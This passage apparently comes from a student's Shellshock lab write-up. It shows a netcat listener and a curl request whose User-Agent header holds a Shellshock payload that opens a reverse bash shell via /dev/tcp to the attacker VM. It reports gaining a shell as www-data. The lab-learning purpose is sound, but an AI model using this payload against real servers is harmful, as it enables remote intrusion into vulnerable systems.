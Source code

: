 ![](/assets/images/16326883206491/16327685275524.jpg)

### 5.3 Launch an attack
To launch an attack, we need run two terminals on the attacker vm. One is used to listen the TCP socket at $9090$, and another is used for send the data to our victim server by `curl`. 
```shell
# In the terminal one
$ nc -l 9090 -v
# In the terminal two
$ curl http://10.0.2.6/cgi-bin/myprog.cgi -v -A \
"() { :; }; echo Content_type: text/plain;echo; \
/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1"
```
Image below shows that we successfully access the bash in the victim server as `www-data` user. 
![](/assets/images/16326883206491/16327698266434.jpg)


## TASK06
